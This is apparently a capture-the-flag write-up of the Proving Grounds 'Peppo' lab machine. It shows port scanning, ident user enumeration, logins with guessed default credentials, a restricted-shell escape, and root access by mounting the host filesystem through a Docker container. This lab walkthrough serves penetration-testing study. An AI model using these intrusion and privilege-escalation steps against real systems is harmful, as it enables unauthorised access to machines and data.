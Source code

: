 ```yaml
---
title: "Proving grounds Practice: Peppo"
layout: post
date: 2024-04-12 02:00
categories: writeup
---
```


Proving grounds - Peppo CTF writeup.

# NMAP

```text
PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
113/tcp   open  ident             FreeBSD identd
5432/tcp  open  postgresql        PostgreSQL DB 12.3 - 12.4
8080/tcp  open  http              WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))
10000/tcp open  snet-sensor-mgmt?
```

## 8080/tcp  open  http  WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))

admin:admin

password change -> password

## 113/tcp   open  ident   FreeBSD identd

`sudo apt install ident-user-enum`

```sh
naveenj@hackerspace:[09:32]~/proving_grounds/Peppo$ ident-user-enum 192.168.196.60 113 22 10000
ident-user-enum v1.0 ( http://pentestmonkey.net/tools/ident-user-enum )

192.168.196.60:113	nobody
192.168.196.60:22	root
192.168.196.60:10000	eleanor
```

## 10000/tcp open  snet-sensor-mgmt?

user: eleanor

## 22/tcp    open  ssh   OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)

- Try brute forcing credentials using username as eleanor. `eleanor:eleanor`

***Escape rbash***

- https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/

Export necessary PATH

```sh
leanor@peppo:~/bin$ PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
eleanor@peppo:~/bin$ python -c 'import pty; pty.spawn("/bin/bash")'
eleanor@peppo:~/bin$ id
bash: id: command not found
n:/binr@peppo:~/bin$ PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin
eleanor@peppo:~/bin$ id
uid=1000(eleanor) gid=1000(eleanor) groups=1000(eleanor),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),999(docker)
```

## Privilege Escalation

- User & Groups: uid=1000(eleanor) gid=1000(eleanor) groups=1000(eleanor),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),999(docker)

### Docker exploit

`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

List Docker images in the system.

```sh
eleanor@peppo:/tmp$ docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
redmine             latest              0c8429c66e07        3 years ago         542MB
postgres            latest              adf2b126dda8        3 years ago         313MB
```

Run `docker run -v /:/mnt --rm -it redmine chroot /mnt s`

```sh
eleanor@peppo:/tmp$ docker run -v /:/mnt --rm -it redmine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
```

**Root Obtained**

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).